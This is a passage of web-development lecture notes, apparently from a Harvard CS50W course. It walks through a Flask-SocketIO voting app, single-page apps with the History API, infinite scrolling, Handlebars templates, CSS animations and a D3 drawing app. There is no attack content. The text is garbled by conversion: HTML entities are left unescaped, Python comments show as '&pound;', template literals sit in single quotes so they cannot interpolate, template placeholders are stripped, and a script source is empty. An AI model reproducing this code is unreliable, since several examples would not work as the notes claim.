    count and display votes in real-time. Here's the
    full application.py, with all the setup and import statements.

-   import os

-   import requests

-   

-   from flask import Flask, jsonify, render_template, request

-   from flask_socketio import SocketIO, emit

-   

-   app = Flask(&lowbar;&lowbar;name&lowbar;&lowbar;)

-   app.config&lbrack;&quot;SECRET_KEY&quot;&rbrack; = os.getenv(&quot;SECRET_KEY&quot;)

-   socketio = SocketIO(app)

-   

-   &commat;app.route(&quot;/&quot;)

-   def index():

-   return render_template(&quot;index.html&quot;)

-   

-   @socketio&period;on&lpar;"submit vote&quot;)

-   def vote(data):

-   selection = data&lbrack;&quot;selection&quot;&rbrack;

-   emit(&quot;announce vote&quot;, {&quot;selection&quot;: selection}, broadcast=True)

    -   flask_socketio is a library that allows for websockets inside a
        Flask application. This library allows for the web server and
        client to be emitting events to all other users, while also
        listening for and receiving events being broadcasted by others.

    -   submit vote is an event that will be broadcasted whenever a vote
        is submitted. The code for this will be in JavaScript.

    -   Once a vote is received, the vote is announced to all users
        (broadcast=True) with the emit function.

-   index.html:

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;script type=&quot;text/javascript&quot;
    src=&quot;//cdnjs.cloudflare.com/ajax/libs/socket.io/1.3.6/socket.io.min.js&quot;&gt;&lt;/script&gt;

-   &lt;script src=&quot;&quot;&gt;&lt;/script&gt;

-   &lt;title&gt;Vote&lt;/title&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   &lt;ul id=&quot;votes&quot;&gt;

-   &lt;/ul&gt;

-   &lt;hr&gt;

-   &lt;button data-vote=&quot;yes&quot;&gt;Yes&lt;/button&gt;

-   &lt;button data-vote=&quot;no&quot;&gt;No&lt;/button&gt;

-   &lt;button data-vote=&quot;maybe&quot;&gt;Maybe&lt;/button&gt;

-   &lt;/body&gt;

-   &lt;/html&gt;

-   index.js:

-   document.addEventListener(&apos;DOMContentLoaded&apos;, () =&gt; {

-   

-   // Connect to websocket

-   var socket = io.connect(location.protocol + &apos;//&apos; +
    document.domain + &apos;:&apos; + location.port);

-   

-   // When connected, configure buttons

-   socket.on(&apos;connect&apos;, () =&gt; {

-   

-   // Each button should emit a &quot;submit vote&quot; event

-   document.querySelectorAll(&apos;button&apos;).forEach(button =&gt; {

-   button.onclick = () =&gt; {

-   const selection = button.dataset.vote;

-   socket.emit(&apos;submit vote&apos;, {&apos;selection&apos;: selection});

-   };

-   });

-   });

-   

-   // When a new vote is announced, add to the unordered list

-   socket.on(&apos;announce vote&apos;, data =&gt; {

-   const li = document.createElement(&apos;li&apos;);

-   li.innerHTML = &apos;Vote recorded: &dollar;{data.selection}&apos;;

-   document.querySelector(&apos;#votes&apos;).append(li);

-   });

-   });

    -   First, the websocket connection is established using a standard
        line to connect to wherever the application is currently running
        at.

    -   submit vote is the name of the event that's being submitted on a
        button click. That event just sends whatever the vote was.

    -   announce vote is an event received from the Python sever, which
        triggers the updating of the vote list.

-   An improvement to this application would be to display a total vote
    count, instead of just listing every individual vote, and making
    sure that new users can see past votes.

-   Changes to application.py:

-   votes = {&quot;yes&quot;: 0, &quot;no&quot;: 0, &quot;maybe&quot;: 0}

-   

-   &commat;app.route(&quot;/&quot;)

-   def index():

-   return render_template(&quot;index.html&quot;, votes=votes)

-   

-   @socketio&period;on&lpar;"submit vote&quot;)

-   def vote(data):

-   selection = data&lbrack;&quot;selection&quot;&rbrack;

-   votes&lbrack;selection&rbrack; += 1

-   emit(&quot;vote totals&quot;, votes, broadcast=True)

    -   Now, any vote submissions are first used to update
        the votes dictionary to keep a record of vote totals. Then, that
        entire dictionary is broadcasted.

-   Changes to index.html:

-   &lt;body&gt;

-   &lt;div&gt;Yes Votes: &lt;span id=&quot;yes&quot;&gt;&lt;/span&gt;&lt;/div&gt;

-   &lt;div&gt;No Votes: &lt;span id=&quot;no&quot;&gt;&lt;/span&gt;&lt;/div&gt;

-   &lt;div&gt;Maybe Votes: &lt;span id=&quot;maybe&quot;&gt;&lt;span&gt;&lt;/div&gt;

-   &lt;hr&gt;

-   &lt;button data-vote=&quot;yes&quot;&gt;Yes&lt;/button&gt;

-   &lt;button data-vote=&quot;no&quot;&gt;No&lt;/button&gt;

-   &lt;button data-vote=&quot;maybe&quot;&gt;Maybe&lt;/button&gt;

-   &lt;/body&gt;

    -   The span elements allocate a space for vote tallies to be filled
        in later.

-   Changes to index.js:

-   socket.on(&apos;vote totals&apos;, data =&gt; {

-   document.querySelector(&apos;#yes&apos;).innerHTML = data.yes;

-   document.querySelector(&apos;#no&apos;).innerHTML = data.no;

> document.querySelector(&apos;#maybe&apos;).innerHTML = data.maybe;

1.  [Front
    Ends](https://courses.edx.org/courses/course-v1:HarvardX+CS50W+Web/courseware/3b4d945d89eb40bcad81746770a81c3b/73e05adf7b6e4009a779cca48b9ef64b/)

> **Notes - Lecture 6: Front Ends**

# Front Ends

## Single-Page Apps

-   Single-page apps take content that would ordinarily be on multiple
    different pages (or routes) and combine them into a single page that
    pulls new information from the server whenever it's needed (through
    methods such as AJAX).

> For a starting point, this application uses multiple pages.

-   &commat;app.route(&quot;/&quot;)

-   def first():

-   return render_template(&quot;first.html&quot;)

-   

-   &commat;app.route(&quot;/second&quot;)

-   def second():

-   return render_template(&quot;second.html&quot;)

-   

-   &commat;app.route(&quot;/third&quot;)

-   def third():

-   return render_template(&quot;third.html&quot;)

> Here's the layout template for these pages.

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;title&gt;My Webpage&lt;/title&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   &lt;ul id=&quot;nav&quot;&gt;

-   &lt;li&gt;&lt;a href=&quot;&quot;&gt;First Page&lt;/a&gt;&lt;/li&gt;

-   &lt;li&gt;&lt;a href=&quot;&quot;&gt;Second Page&lt;/a&gt;&lt;/li&gt;

-   &lt;li&gt;&lt;a href=&quot;&quot;&gt;Third Page&lt;/a&gt;&lt;/li&gt;

-   &lt;/ul&gt;

-   &lt;hr&gt;

-   

-   

-   

-   

-   &lt;/body&gt;

-   &lt;/html&gt;

The navigation bar is simply an unordered list of links.

> Given that these pages all have the simple function of displaying
> text, application.py can be reworked to run on a single route.

-   &commat;app.route(&quot;/&quot;)

-   def index():

-   return render_template(&quot;index.html&quot;)

-   

-   texts = &lbrack;&quot;text 1&quot;, &quot;text 2&quot;, &quot;text 3&quot;&rbrack;

-   

-   &commat;app.route(&quot;/first&quot;)

-   def first():

-   return texts&lbrack;0&rbrack;

-   

-   &commat;app.route(&quot;/second&quot;)

-   def second():

-   return texts&lbrack;1&rbrack;

-   

-   &commat;app.route(&quot;/third&quot;)

-   def third():

-   return texts&lbrack;2&rbrack;

> Note that the other 'routes' don't return a new webpage, but rather
> just the text that

should be displayed.

In order to process this structure, JavaScript must be added
to index.html.

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;script&gt;

-   document.addEventListener(&apos;DOMContentLoaded&apos;, () =&gt; {

-   

-   // Start by loading first page.

-   load_page(&apos;first&apos;);

-   

-   // Set links up to load new pages.

-   document.querySelectorAll(&apos;.nav-link&apos;).forEach(link =&gt; {

-   link.onclick = () =&gt; {

-   load_page(link.dataset.page);

-   return false;

-   };

-   });

-   });

-   

-   // Renders contents of new page in main view.

-   function load_page(name) {

-   const request = new XMLHttpRequest();

-   request.open(&apos;GET&apos;, &apos;/&dollar;{name}&apos;);

-   request.onload = () =&gt; {

-   const response = request.responseText;

-   document.querySelector(&apos;#body&apos;).innerHTML = response;

-   };

-   request.send();

-   }

-   &lt;/script&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   &lt;ul id=&quot;nav&quot;&gt;

-   &lt;li&gt;&lt;a href=&quot;&quot; class=&quot;nav-link&quot; data-page=&quot;first&quot;&gt;First
    Page&lt;/a&gt;&lt;/li&gt;

-   &lt;li&gt;&lt;a href=&quot;&quot; class=&quot;nav-link&quot; data-page=&quot;second&quot;&gt;Second
    Page&lt;/a&gt;&lt;/li&gt;

-   &lt;li&gt;&lt;a href=&quot;&quot; class=&quot;nav-link&quot; data-page=&quot;third&quot;&gt;Third
    Page&lt;/a&gt;&lt;/li&gt;

-   &lt;/ul&gt;

-   &lt;hr&gt;

-   &lt;div id=&quot;body&quot;&gt;

-   &lt;/div&gt;

-   &lt;/body&gt;

-   &lt;/html&gt;

    -   load_page makes an AJAX request to the server to get the text
        that should be displayed and puts in the body div.

-   This new single-page implementation avoids reloading the page
    repeatedly just to display very similar content (e.g. the same
    navigation bar). However, this eliminates the URL's functionality as
    a locator, because all the content is on the same route.

### HTML5 History API

-   The HTMuL5 History API allows for the manipulation of a browser's
    history and URL even if the page is still being implemented with a
    single-page design. Whenever an new 'page' is accessed, the client
    can 'push' a new URL state.

-   The changes to the JavaScript code are inside
    the load_page function.

-   function load_page(name) {

-   const request = new XMLHttpRequest();

-   request.open(&apos;GET&apos;, &apos;/&dollar;{name}&apos;);

-   request.onload = () =&gt; {

-   const response = request.responseText;

-   document.querySelector(&apos;#body&apos;).innerHTML = response;

-   

-   // Push state to URL.

-   document.title = name;

-   history.pushState(null, name, name);

-   };

-   request.send();

-   }

    -   document.title is just an aesthetic property that is set to
        reflect the current page.

    -   In the history.pushState() function, which is used to change the
        browser's history, the first argument is any data that should be
        associated with the push, the second argument is the title of
        the page being pushed, and the third argument is the URL being
        pushed.

-   One flaw with this, though, is that the full multi-page behavior is
    not truly being emulated. If a user tries to use the back button in
    their browser, the URL will change, but not the content. To remedy
    this, the full, stack-like behavior of the HTML5 History API can be
    used. Going back in history should just 'pop' whatever the URL is on
    top off of the stack.

-   // Renders contents of new page in main view.

-   function load_page(name) {

-   const request = new XMLHttpRequest();

-   request.open(&apos;GET&apos;, &apos;/&dollar;{name}&apos;);

-   request.onload = () =&gt; {

-   const response = request.responseText;

-   document.querySelector(&apos;#body&apos;).innerHTML = response;

-   

-   // Push state to URL.

-   document.title = name;

-   history.pushState({&apos;title&apos;: name, &apos;text&apos;: response}, name,
    name);

-   };

-   request.send();

-   }

-   

-   // Update text on popping state.

-   window.onpopstate = e =&gt; {

-   const data = e.state;

-   document.title = data.title;

-   document.querySelector(&apos;#body&apos;).innerHTML = data.text;

-   };

    -   Now, when pushing a new state, title and text data is being
        pushed with it.

    -   When the state is popped, e, the event that just took place, has
        a state property that contains all the data that was pushed with
        that state. Then, that data is just used to update the contents
        of the page as expected.

## Window and Document

-   The window and document variables, which have been seen in past
    examples, are just examples of JavaScripts objects on which
    operations can be performed and that have properties that can be
    accessed. In particular, they contain information about their size
    and position.

    -   window.innerWidth : window width

    -   window.innerHeight : window height

    -   document.body.offsetHeight : the entire height of the HTML
        body's document, of which the window height is likely just a
        small portion

    -   window.scrollY : how far down the page has been scrolled (in
        pixels)

-   One potential use of these properties is to be able to detect if the
    user has scrolled to the bottom of the page.

-   window.onscroll = () =&gt; {

-   console.log(&apos;&minus;&minus;&minus;-&apos;);

-   console.log(window.innerHeight);

-   console.log(window.scrollY);

-   console.log(document.body.offsetHeight);

-   if (window.innerHeight + window.scrollY &gt;=
    document.body.offsetHeight) {

-   document.querySelector(&apos;body&apos;).style.background = &apos;green&apos;;

-   } else {

-   document.querySelector(&apos;body&apos;).style.background = &apos;white&apos;;

-   }

-   };

    -   console.log is essentially a print statement that prints to the
        web browsers's console.

    -   All this does is change the background color of the web page to
        green when the bottom of the document has been reached, which is
        detected using the mathematical relationship
        between window and document properties.

-   A more useful application of this bottom-detection would be the
    dynamic loading of more content when the bottom of a webpage has
    been reached. application.py for such a webpage could look like
    this.

-   import time

-   

-   from flask import Flask, jsonify, render_template, request

-   

-   app = Flask(&lowbar;&lowbar;name&lowbar;&lowbar;)

-   

-   &commat;app.route(&quot;/&quot;)

-   def index():

-   return render_template(&quot;index.html&quot;)

-   

-   &commat;app.route(&quot;/posts&quot;, methods=&lbrack;&quot;POST&quot;&rbrack;)

-   def posts():

-   

-   &pound; Get start and end point for posts to generate.

-   start = int(request.form.get(&quot;start&quot;) or 0)

-   end = int(request.form.get(&quot;end&quot;) or (start + 9))

-   

-   &pound; Generate list of posts.

-   data = &lbrack;&rbrack;

-   for i in range(start, end + 1):

-   data.append(f&quot;Post #{i}&quot;)

-   

-   &pound; Artificially delay speed of response.

-   time.sleep(1)

-   

-   &pound; Return list of posts.

-   return jsonify(data)

-   index.html (a little more complex now)

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;script&gt;

-   // Start with first post.

-   let counter = 1;

-   

-   // Load posts 20 at a time.

-   const quantity = 20;

-   

-   // When DOM loads, render the first 20 posts.

-   document.addEventListener(&apos;DOMContentLoaded&apos;, load);

-   

-   // If scrolled to bottom, load the next 20 posts.

-   window.onscroll = () =&gt; {

-   if (window.innerHeight + window.scrollY &gt;=
    document.body.offsetHeight) {

-   load();

-   }

-   };

-   

-   // Load next set of posts.

-   function load() {

-   

-   // Set start and end post numbers, and update counter.

-   const start = counter;

-   const end = start + quantity - 1;

-   counter = end + 1;

-   

-   // Open new request to get new posts.

-   const request = new XMLHttpRequest();

-   request.open(&apos;POST&apos;, &apos;/posts&apos;);

-   request.onload = () =&gt; {

-   const data = JSON.parse(request.responseText);

-   data.forEach(add_post);

-   };

-   

-   // Add start and end points to request data.

-   const data = new FormData();

-   data.append(&apos;start&apos;, start);

-   data.append(&apos;end&apos;, end);

-   

-   // Send request.

-   request.send(data);

-   };

-   

-   // Add a new post with given contents to DOM.

-   function add_post(contents) {

-   

-   // Create new post.

-   const post = document.createElement(&apos;div&apos;);

-   post.className = &apos;post&apos;;

-   post.innerHTML = contents;

-   

-   // Add post to DOM.

-   document.querySelector(&apos;#posts&apos;).append(post);

-   };

-   &lt;/script&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   &lt;div id=&quot;posts&quot;&gt;

-   &lt;/div&gt;

-   &lt;/body&gt;

-   &lt;/html&gt;

-   For a little more functionality, the add_post function could be
    modified to add a button to hide uninteresting posts.

-   function add_post(contents) {

-   

-   // Create new post.

-   const post = document.createElement(&apos;div&apos;);

-   post.className = &apos;post&apos;;

-   post.innerHTML = contents;

-   

-   // Add button to hide post.

-   const hide = document.createElement(&apos;button&apos;);

-   hide.className = &apos;hide&apos;;

-   hide.innerHTML = &apos;Hide&apos;;

-   post.append(hide);

-   

-   // When hide button is clicked, remove post.

-   hide.onclick = function() {

-   this.parentElement.remove();

-   };

-   

-   // Add post to DOM.

-   document.querySelector(&apos;#posts&apos;).append(post);

-   };

    -   Calling post.append(hide) adds the hide button inside the
        post div.

    -   parentElement is the element containing the element in question.
        In this case, this.parentElement is used to refer to
        the post containing the hide button.

    -   remove is a built-in function to delete an element all together.

## JavaScript Templating

-   One issue with using JavaScript to build more complicated user
    interfaces and adding items to the DOM the code is starting to get a
    little bit messy. Every element needs to be created, class names
    need to be assigned, inner HTML needs to be set, etc. Ideally, all
    the HTML would be written somewhere else, but the exact content
    that's going inside is still currently unknown.

-   The solution to this problem is JavaScript templating, which allows
    for the creation of templates in JavaScript that define the HTML,
    while also allowing for substitution inside that template for adding
    different content. A very simple version of this is JavaScript's
    template literals. There many different JavaScript libraries that
    take that idea one step further. In this class, the Handlebars
    library will be used.

-   The next series of examples will be a dice-throwing application.
    Here's the starting point.

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;script
    src=&quot;https://cdnjs.cloudflare.com/ajax/libs/handlebars.js/4.0.11/handlebars.min.js&quot;&gt;&lt;/script&gt;

-   &lt;script&gt;

-   // Template for roll results

-   const template = Handlebars.compile(&quot;&lt;li&gt;You rolled a &lt;/li&gt;&quot;);

-   

-   document.addEventListener(&apos;DOMContentLoaded&apos;, () =&gt; {

-   document.querySelector(&apos;#roll&apos;).onclick = () =&gt; {

-   

-   // Generate a random roll.

-   const roll = Math.floor((Math.random() &ast; 6) + 1);

-   

-   // Add roll result to DOM.

-   const content = template({&apos;value&apos;: roll});

-   document.querySelector(&apos;#rolls&apos;).innerHTML += content;

-   };

-   });

-   &lt;/script&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   &lt;button id=&quot;roll&quot;&gt;Roll&lt;/button&gt;

-   &lt;ul id=&quot;rolls&quot;&gt;

-   &lt;/ul&gt;

-   &lt;/body&gt;

-   &lt;/html&gt;

    -   template is being used repeatedly for every roll. It is like a
        client-side analog to the Flask/Jinja2 templates.

    -   Math.random() returns a random number between 0 and 1.
        Multiplying it by 6 returns a number in the range of 0 up to,
        but not including, 6. Adding 1 gives a range from 1 up to 7, and
        using Math.floor() will return either 1, 2, 3, 4, 5, or 6.

    -   template is used like function: it is passed value(s) and
        returns HTML content.

-   It would be nicer to have images of the dice roll rather than just
    printing out the number. To do so, all that needs to change is the
    template, which now includes an img element.

-   const template = Handlebars.compile(&quot;&lt;li&gt;You rolled: &lt;img
    src=\\&quot;img/.png\\&quot;&gt;&lt;/li&gt;&quot;);

    -   Note how the &quot; characters are escaped, since they are inside a
        string.

-   Still, including all of the JavaScript template inside a string
    starts to get messy when including images, etc. Ideally, there would
    be pure HTML that is then compiled by Handlebars.

-   &lt;script id=&quot;result&quot; type=&quot;text/x-handlebars-template&quot;&gt;

-   &lt;li&gt;

-   You rolled:

-   

-   &lt;img alt=&quot;{{ value }}&quot; title=&quot;{{ value }}&quot; src=&quot;img/{{ value
    }}.png&quot;&gt;&lt;/img&gt;

-   

-   &lt;/li&gt;

-   &lt;/script&gt;

-   &lt;script&gt;

-   // Template for roll results

-   const template =
    Handlebars.compile(document.querySelector(&apos;#result&apos;).innerHTML);

-   

-   document.addEventListener(&apos;DOMContentLoaded&apos;, () =&gt; {

-   document.querySelector(&apos;#roll&apos;).onclick = () =&gt; {

-   

-   // Generate a random roll.

-   const roll = Math.floor((Math.random() &ast; 6) + 1);

-   

-   // Add roll result to DOM.

-   const content = template({&apos;value&apos;: roll});

-   document.querySelector(&apos;#rolls&apos;).innerHTML += content;

-   };

-   });

-   &lt;/script&gt;

    -   Note that there are two script elements. The one with the
        id result with represent the result of a roll. It has a
        special type attribute, defined by Handlebars. Inside of
        this script element will be HTML code that represents the
        Handlebars template.

    -   The alt and title attributes of the image simply provide the
        same information in text when the image is hovered over and for
        browsers that don't support images.

    -   Now, instead of compiling a string, the template is simply
        selected using document.querySelector.

-   Handlebars, like Jinja, supports loops. In this example, loops could
    be used to roll multiple dice at once.

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;script
    src=&quot;https://cdnjs.cloudflare.com/ajax/libs/handlebars.js/4.0.11/handlebars.min.js&quot;&gt;&lt;/script&gt;

-   &lt;script id=&quot;result&quot; type=&quot;text/template&quot;&gt;

-   &lt;li&gt;

-   You rolled:

-   

-   {{#each values}}

-   &lt;img alt=&quot;{{ this }}&quot; title=&quot;{{ this }}&quot; src=&quot;img/{{ this
    }}.png&quot;&gt;

-   {{/each}}

-   (Total: {{ total }})

-   

-   &lt;/li&gt;

-   &lt;/script&gt;

-   &lt;script&gt;

-   

-   // Template for roll results

-   const template =
    Handlebars.compile(document.querySelector(&apos;#result&apos;).innerHTML);

-   

-   document.addEventListener(&apos;DOMContentLoaded&apos;, () =&gt; {

-   document.querySelector(&apos;#roll&apos;).onclick = () =&gt; {

-   

-   // Generate random rolls.

-   const counter =
    parseInt(document.querySelector(&apos;#counter&apos;).value);

-   const rolls = &lbrack;&rbrack;;

-   let total = 0;

-   for (let i = 0; i &lt; counter; i++) {

-   const value = Math.floor(Math.random() &ast; 6) + 1;

-   rolls.push(value);

-   total += value;

-   };

-   

-   // Add roll results to DOM.

-   const content = template({&apos;values&apos;: rolls, &apos;total&apos;: total});

-   document.querySelector(&apos;#rolls&apos;).innerHTML += content;

-   };

-   });

-   &lt;/script&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   &lt;input id=&quot;counter&quot; type=&quot;number&quot; placeholder=&quot;Number of
    Rolls&quot; min=&quot;1&quot; value=&quot;1&quot;&gt;

-   &lt;button id=&quot;roll&quot;&gt;Roll&lt;/button&gt;

-   &lt;ul id=&quot;rolls&quot;&gt;

-   &lt;/ul&gt;

-   &lt;/body&gt;

-   &lt;/html&gt;

    -   #each is a Handlebars 'block helper'. There many of these
        helpers with different functions, be it loops, in this examples,
        conditionals (#if), etc. If the built-in helpers aren't enough,
        Handlebars also allows for the creation of custom helpers.

    -   Inside the loop, Handlebars calls every item in the set of items
        (in this case, the set is called values), this.

-   One thing to keep in mind when adding Handlebars templates to Flask
    apps is that Jinja will scan the HTML file first, and will see the
    double curly brace syntax as a place where it should plug in a
    value. Since this is not desired, Jinja needs to be told to ignore
    the blocks of code with Handlebars templates with Jinja's raw block.

-   

-   {{ contents }}

-   

## 

## CSS Animation

-   CSS animation allows for changes from one CSS property to another
    over some duration of time while the page is running.

-   

-   &commat;keyframes grow {

-   from {

-   font-size: 20px;

-   }

-   to {

-   font-size: 100px;

-   }

-   }

-   

-   

-   h1 {

-   animation-name: grow;

-   animation-duration: 2s;

-   animation-fill-mode: forwards;

-   }

-   -   &commat;keyframes grow defines a CSS animation called grow, which
        goes from one style to another style.

    -   The animation-name property is used to link the grow animation
        to h1 elements.

    -   animation-duration sets the time over which the animation
        occurs.

    -   animation-fill-mode sets the direction the animation should go.
        The value forwards means that once the end of the animation is
        reached, that final styling should be preserved.

-   Another simple example:

-   

-   &commat;keyframes move {

-   from {

-   left: 0%;

-   }

-   to {

-   left: 50%;

-   }

-   }

-   

-   h1 {

-   position: relative;

-   animation-name: move;

-   animation-duration: 3s;

-   animation-fill-mode: forwards;

-   }

-   -   left indicates the relative position of an HTML element. h1 is
        given the position: relative property, which means it position
        is defined in relationship to other parts of the window.

    -   The move animation shifts an element from being 0% away from the
        left edge of the screen to being 50% away from that edge
        (aligned with the middle of the window).

-   Along with a start and end point, midway points can be specified as
    well.

-   

-   &commat;keyframes move {

-   0% {

-   left: 0%;

-   }

-   50% {

-   left: 50%;

-   }

-   100% {

-   left: 0%;

-   }

-   }

-   

### Adding JavaScript

-   With CSS alone, animations always run as soon as a webpage is
    loaded. To control animation, JavaScript can be used to modify the
    CSS properties animationPlayState, which is paused or running.

-   

-   &lt;style&gt;

-   &commat;keyframes move {

-   0% {

-   left: 0%;

-   }

-   50% {

-   left: 50%;

-   }

-   100% {

-   left: 0%;

-   }

-   }

-   

-   h1 {

-   position: relative;

-   animation-name: move;

-   animation-duration: 3s;

-   animation-fill-mode: forwards;

-   animation-iteration-count: infinite;

-   }

-   

-   &lt;/style&gt;

-   &lt;script&gt;

-   document.addEventListener(&apos;DOMContentLoaded&apos;, () =&gt; {

-   const h1 = document.querySelector(&apos;h1&apos;);

-   h1.style.animationPlayState = &apos;paused&apos;;

-   document.querySelector(&apos;button&apos;).onclick = () =&gt; {

-   if (h1.style.animationPlayState === &apos;paused&apos;)

-   h1.style.animationPlayState = &apos;running&apos;;

-   else

-   h1.style.animationPlayState = &apos;paused&apos;;

-   };

-   });

-   &lt;/script&gt;

    -   animation-iteration-count specifies how many times the animation
        should be run.

    -   When the page is first loaded, the animation is paused. Then,
        everytime some button is clicked, the animationPlayState is
        changed.

-   So far, animation has been purely aesthetic, but it can be a large
    part of a good user interface. One such situation might be the
    previous example with a list of posts. When hiding a post, it would
    helpful to have the post fade away.

-   &lt;style&gt;

-   

-   &commat;keyframes hide {

-   from {

-   opacity: 1;

-   }

-   to {

-   opacity: 0;

-   }

-   }

-   

-   .post {

-   background-color: #77dd11;

-   padding: 20px;

-   margin-bottom: 10px;

-   animation-name: hide;

-   animation-duration: 2s;

-   animation-fill-mode: forwards;

-   animation-play-state: paused;

-   }

-   &lt;/style&gt;

-   &lt;script&gt;

-   // &hellip;rest of JavaScript code&hellip;

-   

-   // If hide button is clicked, delete the post.

-   document.addEventListener(&apos;click&apos;, event =&gt; {

-   const element = event.target;

-   if (element.className === &apos;hide&apos;) {

-   element.parentElement.style.animationPlayState = &apos;running&apos;;

-   element.parentElement.addEventListener(&apos;animationend&apos;, () =&gt; {

-   element.parentElement.remove();

-   });

-   }

-   });

-   &lt;/script&gt;

-   -   There is slightly different logic here to figure out when the
        button is clicked. Now, anytime a mouse click occurs,
        the event.target, which is the element being clicked, is
        assigned to the variable element.

    -   If the hide button was clicked, the animation is run on the
        post, and the end of the animation is listened for with a
        callback to actually delete the post.

-   A slight refinement would be to have the rest of the posts slide up
    to fill the gap left by the deleted post. To give this illusion,
    only the actual post being deleted needs to have its animation
    modified, not all the posts remaining.

-   

-   &commat;keyframes hide {

-   0% {

-   opacity: 1;

-   height: 100%;

-   line-height: 100%;

-   padding: 20px;

-   margin-bottom: 10px;

-   }

-   75% {

-   opacity: 0;

-   height: 100%;

-   line-height: 100%;

-   padding: 20px;

-   margin-bottom: 10px;

-   }

-   100% {

-   opacity: 0;

-   height: 0px;

-   line-height: 0px;

-   padding: 0px;

-   margin-bottom: 0px;

-   }

-   }

-   -   For the first 75% of the animation, the post disappears.

    -   For the final 25% of the animation, the post shrinks in size
        until it has no height, causing all the other posts below it to
        fill in that space.

## SVG Animation

-   A Scalable Vector Graphic (SVG) is graphical element determined by
    lines, angles, and shapes. SVGs can be used to draw things that
    simple HTML elements, like divs, don't allow for.

-   &lt;body&gt;

-   &lt;svg style=&quot;width:100%; height:800px&quot;&gt;

-   &lt;circle cx=&quot;200&quot; cy=&quot;200&quot; r=&quot;50&quot; style=&quot;fill:blue&quot;/&gt;

-   &lt;/svg&gt;

-   &lt;/body&gt;

    -   The SVG element is given a fixed height and a width that
        automatically adjusts based on the content to maintain that
        fixed height.

    -   The circle element is one of the SVG elements supported by SVG.
        It is given x- and y-coordinates for its center with cx and cy,
        a radius with r, and finally some CSS styling.

-   As before, it is preferable to be able to create such elements
    programatically using JavaScript. To do so, a JavaScript data
    visualization library, D3, will be used.

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;script src=&quot;https://d3js.org/d3.v4.min.js&quot;&gt;&lt;/script&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   &lt;svg id=&quot;svg&quot; style=&quot;width:100%; height:800px&quot;/&gt;

-   &lt;/body&gt;

-   &lt;script&gt;

-   

-   const svg = d3.select(&apos;#svg&apos;);

-   

-   svg.append(&apos;circle&apos;)

-   .attr(&apos;cx&apos;, 200)

-   .attr(&apos;cy&apos;, 200)

-   .attr(&apos;r&apos;, 90)

-   .style(&apos;fill&apos;, &apos;green&apos;);

-   

-   &lt;/script&gt;

-   &lt;/html&gt;

    -   d3.select gets access to an HTML element.

    -   Then, D3 functions are used to add a circle to that selected SVG
        element with all the same attributes and styling as before.

-   As with CSS, animations can be added to SVGs.

-   const svg = d3.select(&apos;#svg&apos;);

-   

-   const c = svg.append(&apos;circle&apos;)

-   .attr(&apos;cx&apos;, 200)

-   .attr(&apos;cy&apos;, 200)

-   .attr(&apos;r&apos;, 50)

-   .style(&apos;fill&apos;, &apos;blue&apos;);

-   

-   c.transition()

-   .duration(1000)

-   .attr(&apos;cx&apos;, 500)

-   .attr(&apos;cy&apos;, 500)

-   .style(&apos;fill&apos;, &apos;red&apos;);

    -   The duration (in milliseconds) for the transition (animation) is
        given, along with the final values for each attribute that
        should be animated.

-   Animations can also delayed or triggered on certain events.

-   c.transition()

-   .duration(1000)

-   .delay(1000)

-   .attr(&apos;cx&apos;, 500);

-   

-   c.on(&apos;click&apos;, function() {

-   d3.select(this).transition()

-   .duration(3000)

-   .style(&apos;fill&apos;, &apos;red&apos;);

-   });

    -   delay specifies the length of time before the animation is run.

    -   on takes an event and callback to apply to an SVG. In this case,
        when the circle is clicked, this, whatever was clicked on,
        undergoes another transition.

### A Drawing Application

-   The final example of a user interface, demonstrating the potential
    of SVGs, will be a simple sketchpad-like application.

-   &lt;body&gt;

-   &lt;svg id=&quot;svg&quot; style=&quot;width:100%; height:800px&quot;/&gt;

-   &lt;/body&gt;

-   &lt;script&gt;

-   

-   const svg = d3.select(&apos;#svg&apos;);

-   

-   function draw_point() {

-   const coords = d3.mouse(this);

-   

-   svg.append(&apos;circle&apos;)

-   .attr(&apos;cx&apos;, coords&lbrack;0&rbrack;)

-   .attr(&apos;cy&apos;, coords&lbrack;1&rbrack;)

-   .attr(&apos;r&apos;, 5)

-   .style(&apos;fill&apos;, &apos;black&apos;);

-   };

-   

-   svg.on(&apos;mousemove&apos;, draw_point);

-   

-   &lt;/script&gt;

    -   Whenever the mouse moves on the canvas, draw_point will be
        called.

    -   draw_point simply draws a small circle where the mouse is,
        grabbing its coordinates with d3.mouse(this).

-   An obvious improvement would be to only draw when the mouse is
    clicked.

-   const svg = d3.select(&apos;#svg&apos;);

-   let drawing = false;

-   

-   function draw_point() {

-   if (!drawing)

-   return;

-   

-   const coords = d3.mouse(this);

-   

-   svg.append(&apos;circle&apos;)

-   .attr(&apos;cx&apos;, coords&lbrack;0&rbrack;)

-   .attr(&apos;cy&apos;, coords&lbrack;1&rbrack;)

-   .attr(&apos;r&apos;, 5)

-   .style(&apos;fill&apos;, &apos;black&apos;);

-   };

-   

-   svg.on(&apos;mousedown&apos;, () =&gt; {

-   drawing = true;

-   });

-   

-   svg.on(&apos;mouseup&apos;, () =&gt; {

-   drawing = false;

-   });

-   

-   svg.on(&apos;mousemove&apos;, draw_point);

    -   Now, a boolean variable drawing controls whether or not a point
        should be drawn.

    -   Clicking (mousedown) turns on drawing by
        setting drawing to true, and releasing mouseup turns it off.

-   The remaining problem is that if the mouse moves too fast, a bunch
    of unconnected dots will be drawn because the mousemove event isn't
    fired quickly enough. This frequency cannot be changed, but one
    workaround would be to draw a line between all points.

-   First off, a nicer UI would include a list of options to let the
    user choose pen color, thickness, and also to erase the canvas.

-   &lt;body&gt;

-   &lt;div class=&quot;container&quot;&gt;

-   &lt;div id=&quot;options&quot; class=&quot;row&quot;&gt;

-   &lt;select id=&quot;color-picker&quot;&gt;

-   &lt;option value=&quot;black&quot;&gt;Black&lt;/option&gt;

